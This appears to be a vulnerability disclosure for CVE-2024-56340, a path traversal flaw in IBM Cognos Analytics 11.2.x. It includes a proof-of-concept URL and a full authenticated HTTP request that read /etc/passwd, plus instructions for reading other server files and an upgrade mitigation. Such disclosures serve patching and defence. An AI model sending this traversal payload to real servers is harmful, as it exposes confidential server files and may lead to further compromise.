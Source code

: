 # CVE-2024-56340

**Severity :** **Medium** (**6.5**)

**CVSS score :** `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N` 

## Summary :
**IBM Cognos Analytics 11.2.0** through **11.2.4 FP5** could allow a remote attacker to traverse directories on the system. An attacker could send a specially crafted URL request containing "dot dot" sequences (/../) to view arbitrary files on the system.
## Poc
Afer logging into IBM Cognos Analytics, if the user has such grants to reach the following url, it is possible tor read files stored serverside using path traversal payloads, in this case unix payloads have been used to read /etc/passwd.
### Steps to Reproduce :
1. Login into the app.
2. Embed this url customizing it with the vulnerable **domain** to read /etc/passwd or replace the %fetc%2fpasswd with the file to read with / url-encoded:
```
https://<domain>/ibmcognos/bi/v1/disp/icd/feeds/cm/system/rds/thumbnail/?waitThreshold=0&deficon=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd&v=3
```
Full request:
```
GET /ibmcognos/bi/v1/disp/icd/feeds/cm/system/rds/thumbnail/?waitThreshold=0&deficon=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd&v=3 HTTP/1.1
Host: <host>
Cookie: <cookie> 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close
```
NOTE: Other files can be read traversing the files, appending the files to search with path url-encoded in place of %2fetc%2fpasswd ``

## Affected Version Details :

 - $\le$ 11.2.4 $\geq$ 11.2.0

## Impact :

The attacker can read files stored serverside, where the tool have been installed. This can be a vector to perform RCE if some conditions are verified on the victim machine.
## Mitigation :

-  Update to version > 11.2.4
  
## References :
- https://nvd.nist.gov/vuln/detail/CVE-2024-56340
